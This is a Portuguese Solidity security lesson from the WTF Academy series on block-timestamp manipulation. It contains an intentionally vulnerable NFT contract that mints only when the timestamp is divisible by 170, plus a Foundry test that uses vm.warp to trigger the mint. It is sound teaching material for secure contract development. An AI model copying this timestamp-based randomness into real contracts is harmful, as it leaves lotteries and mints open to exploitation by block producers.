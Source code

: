 ```yaml
---
title: S14. Manipulação do Tempo de Bloco
tags:
- solidity
- segurança
- timestamp
---
```


# WTF Solidity Contratos Seguros: S14. Manipulação do Tempo de Bloco

Recentemente, tenho estudado solidity novamente para revisar os detalhes e escrever um "Guia WTF de Introdução ao Solidity" para iniciantes (programadores experientes podem procurar outros tutoriais). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

Nesta lição, vamos falar sobre o ataque de manipulação do tempo de bloco em contratos inteligentes e reproduzi-lo usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco.

## Tempo de Bloco

O tempo de bloco (block timestamp) é um valor `uint64` incluído no cabeçalho de um bloco Ethereum, representando o timestamp UTC (em segundos) em que o bloco foi criado. Antes do Merge, o Ethereum ajustava a dificuldade dos blocos com base no poder de processamento, o que resultava em tempos de bloco variáveis, com uma média de 14,5 segundos por bloco. Os mineradores podiam manipular o tempo de bloco. Após o Merge, o tempo de bloco foi fixado em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco.

Em Solidity, os desenvolvedores podem obter o timestamp do bloco atual usando a variável global `block.timestamp`, que é do tipo `uint256`.

## Exemplo de Vulnerabilidade

Este exemplo é uma modificação do contrato apresentado em [WTF Solidity Contratos Seguros: S07. Números Aleatórios Ruins](./32_Faucet). Alteramos a condição da função de criação `mint()`: agora, a criação só é bem-sucedida se o timestamp do bloco for divisível por 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Construtor: inicializa o nome e o símbolo da coleção NFT
    constructor() ERC721("", ""){}

    // Função de criação: só é possível criar se o timestamp do bloco for divisível por 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // criação
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduzindo o Ataque com o Foundry

Para reproduzir o ataque, o atacante só precisa manipular o tempo de bloco para um número divisível por 170. Vamos usar o Foundry para isso, pois ele fornece códigos de trapaça para modificar o tempo de bloco. Se você não está familiarizado com o Foundry/códigos de trapaça, pode ler o [tutorial do Foundry](../Topics/Tools/TOOL07_Foundry/readme.md) e o [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

Lógica do código:

1. Criar uma variável de contrato `nft` do tipo `TimeManipulation`.
2. Criar um endereço de carteira `alice`.
3. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 169, o que não é divisível por 170 e resultará em falha na criação.
4. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 17000, o que é divisível por 170 e resultará em sucesso na criação.

Código:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Calcula o endereço para uma chave privada fornecida
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condição 1: block.timestamp % 170 != 0");
        // Define block.timestamp como 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Define o endereço do chamador das chamadas subsequentes como o endereço fornecido
        // até que `stopPrank` seja chamado
        vm.startPrank(alice);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));

        // Define block.timestamp como 17000
        console.log("Condição 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

Após instalar o Foundry, execute o seguinte comando no terminal para iniciar um novo projeto e instalar a biblioteca OpenZeppelin:

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copie o código desta lição para as pastas `src` e `test`, respectivamente. Em seguida, execute o seguinte comando para iniciar os testes:

```shell
forge test -vv --match-test testMint
```

A saída será a seguinte:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condição 1: block.timestamp % 170 != 0
  block.timestamp: 169
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 0
  Condição 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

Podemos ver que a criação é bem-sucedida quando o `block.timestamp` é alterado para 17000.

## Conclusão

Nesta lição, discutimos o ataque de manipulação do tempo de bloco em contratos inteligentes e o reproduzimos usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco. Após o Merge, o Ethereum fixou o tempo de bloco em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco. Portanto, esse tipo de ataque não ocorrerá no Ethereum, mas ainda pode ser encontrado em outras blockchains.

